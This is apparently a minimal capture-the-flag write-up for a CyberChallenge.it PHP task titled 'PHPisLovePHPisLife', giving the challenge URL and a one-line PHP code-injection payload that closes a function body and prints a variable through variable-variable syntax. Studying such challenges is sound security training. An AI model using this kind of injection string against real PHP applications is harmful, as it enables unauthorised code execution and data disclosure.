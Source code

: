 # PHPisLovePHPisLife

http://phpislove.challs.cyberchallenge.it/


## payload
return 1+1; }  print("${$strings{4}}");  //